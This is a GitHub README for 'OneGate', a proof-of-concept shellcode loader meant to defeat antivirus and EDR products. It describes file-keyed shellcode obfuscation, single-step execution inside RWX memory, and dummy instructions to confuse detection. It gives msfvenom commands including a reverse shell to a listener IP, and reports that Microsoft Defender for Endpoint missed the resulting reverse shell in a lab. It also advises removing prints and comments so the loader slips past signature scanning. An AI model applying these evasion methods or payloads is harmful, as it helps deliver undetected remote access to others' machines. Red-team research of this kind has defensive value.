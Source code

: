 # OneGate
Yet another shellcode loader - but a sneaky one


[insert humerous picture]


This is a combination of my earlier shellcode obfuscation project WhenAPayloadCalls but now with a custom shellcode loader which aims to defeat antivirus and EDR solutions.

The intent was to use the most obvious WinAPIs possible while aslo using least amount of evasion techniques and still have it defeat AV/EDR. As such it uses:

- VirtualAlloc to execute RWX memory
- No use of VirtualProtect to flip memory protections - just does everything inside RWX memory
- Uses CreateThread to run
- No sandbox evasion

**NOTE**: This is meant to be more of a proof of concept of the technique as opposed to an off the shelf solution, so don't expect to be able to pick it up and have it work for everything

## How it works

There are two parts to OneGate - the constructor and the executor (OneGate):

### Constructor

Get some shellcode and put it in the `const unsigned char Payload[] {}` located in `constructor.c`. There are already two examples in there for a calc.exe shellcode and a reverse shell, both generated by MSFVenom.

The basic method of obfuscating the shellcode comes from WhenAPayloadCalls. This is a shellcode obfuscation technique using a file which already exists on the target computer. You will need an **EXACT** byte for byte copy of the file you are targeting. As such this is not meant as a general "out of the box" obfuscation technique, but rather one that is specifically tailored to that specific target system. It is also possible to upload your own file to the target system and use that to generate your payload.

Pick a file on the attacker's machine (this is why you need an exact byte for byte copy of a file on the victim's machine) that you want to use. The program will iterate through the chosen file and look for the bytes in the shellcode, noting down the position of each one. For example if the first byte is `FC`, it will search the target file for the byte `FC` and print out the position in the target file at which it is found (on my system using the target file `notepad.exe` the byte `FC` is the `266`th byte in notepad). If the program cannot find the byte it will say so. This generates the `Positions[]` array.

Using the Zydis (https://github.com/zyantific/zydis) it will iterate through the shellcode and determine the number of bytes in each instruction generating an array called `bytesPerLine[]`.

A sample output of the constructor is as follows:

[insert sample output]


### OneGate (the executor)

OneGate first allocates a memory page and fills it with random instructions. It randomly allocates a starting position for the shellcode within this memory page so that the shellcode doesn't start in the same place each time.

It then opens the file that is being used to perform the byte deobfuscation and iterates through `Postitions[]` and only decrptys the number of bytes needed for that particular instruction. This way only the exact bytes required for the next instruction are ever revealed at any given time. These bytes are written to their correct plce in the memory page (overwriting what is already there) and executed using single setpping. Once an instruction is executed the original bytes that were overwritten are written back to their place in the memory page. Therefore not only are the bytes only exposed for the minimum amount of time, but unless the defence system can catch the modification in time, it will appear as though nothing changed on the memory page at that particular address.

To defeat any register based pattern recognition which may be used by EDRs, at random intervals OneGate generates a random set of instructions and executes them - these are referred to as dummy instructions. A stable of instructions are held in the `instructions[][]` array. It will select a random number of instructions to use for each given dummy set, so that the dummy instructions are not always the same length. Before executing the dummy instructions, it saves the thread context of the shellcode execution. This enables the dummy instructions to modify them at will. The tread context is then restored and execution of the shellcode continues as if nothing happened.

Currently the `instructions[][]` array only takes instructions which are three bytes in length. There is also a hardcoded value in the `CreateDummy()` function which only allows it to deal with three byte instructions. The size of the array and the hard coded instructions can be changed at will to avoid signature based detections, however no testing has been conducted with instructions larger than 3 bytes in length.

OneGate takes a **LOOOOONG** time to run payloads, so be patient after you launch it. On my VM with very little system resources it takes about 3 minutes to spawn a calculator and 20 minutes to get a reverse shell connection. In the lab environment (see Evasion) it took about 6 minutes to get a reverse shell.

There are two `.c` files in the Executor project folder. One is an example with running calc.exe and the other is a reverse shell. You will need to set one as "Exclude From Project" otherwise it will not compile.

#### Shortfall of deobfusaction technique

One shortfall of this technique is that unless the RIP points to a particular instruction it will not be deobfuscated. For example the last few instructions of `msfvenom -p windows/x64/exec CMD=calc.exe` are:
```
106:    41 89 da                mov    r10d,ebx
109:    ff d5                   call   rbp
10b:    63 61 6c                movsxd esp,DWORD PTR [rcx+0x6c]
10e:    63 00                   movsxd eax,DWORD PTR [rax] 
```

Ordinarly `call rbp` would trigger the two instructions after it (these spell out "calc" which tells it what to run), however as these are still obfuscated when `call rbp` is executed nothing happens. Therefore we need to unmask these instructions manually. At present it is done in a lazy way - it just reveals these instructions at all times. Two special arrays are created:
```
const unsigned char second_last[] = { 0x63, 0x61, 0x6c };
const unsigned char last[] = { 0x63, 0x00 };
```

One the first run of the vectored exception handler it writes them to the allocated memory space:
```
memcpy((DWORD64)baseAddress + 0x10B, second_last, 3);
memcpy((DWORD64)baseAddress + 0x10E, last, 2);
```

These are not overwritten as only instructions that are deobfuscated are overwritten again.

A better way to handle this could be just in time deobfuscation, where there is a check to see if the RIP is at offset `109` and then have it deobfuscate 7 bytes as opposed to only 2. This has not been implemented here because as mentioned above this is a proof of concept.

## Evasion

This was tested in [Altered Security](https://www.alteredsecurity.com/)'s lab environment (shout out to Nikhil for letting me test it on there) which had a machine running Microsoft Defender for Endpoint (Microsoft's EDR solution). OneGate was infiltrated to the target machine and run from disk without using any sort of in memory PE loading techniques. Using the payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.91 LPORT=9000` built on `notepad.exe` a reverse connection was successfully established to the listener machine.

[insert picture]

An analysis of the MDE dashboard shows only one detection by MDE which had to do with a compromised account and the dumping of a SAM hive (this was a shared environment so other people were doing other things). Of interest is the fact that MDE had flagged the `jumpone$` account shown in the picture below as being compromised - this was the same account used to sign in to deploy OneGate on the target machine meaning that even with a flagged account MDE did not detect the execution of the reverse shell.

[insert MDE dashboard picture]


While not definitive, it is believed that the fact that OneGate takes so long to run the shellcode helps with defeating AV/EDR sandboxing. Seeing as the AV/EDR cannot run OneGate in a sandbox forever, it runs it for however long it can and determines that nothing malicious is going on and lets it run in the production environment. The prevents the need for sandbox detection and evasion techniques to have to built into the loader which may be detected.

### Other EDRs

If anyone gets the opportunity to test this against other EDRs please drop me a line and let me know how it goes. I really wanted to see how this would go up against Crowdstrike especially, but wasn't able to get access to an environment where it was avialable.

### BIG NOTE
Currently OneGate prints a lot of things that I had in there for debugging purposes. I have left these prints in so that you can see what OneGate is doing if you decide to single step it through a debugger. I have also left comments in there so that you (and I when I come back to it six months later) can hopefully make sense of my code.

In order to get it past defences, **remove all prints and comments from the code** (you can leave error printing). With everything still in there even good old basic Windows Defender will trigger a signature based detection as soon as it touches disk (I think this has to do with the comment containing the string "msfvenom").


## Known Issues

OneGate (the executor part) will randomly throw an access violation error. I think this has something to do with the random allocation of the payload starting point and the location of the address where any dummy code is held but I have not been able to figure it out yet. If you get an access violation error, just run OneGate again.
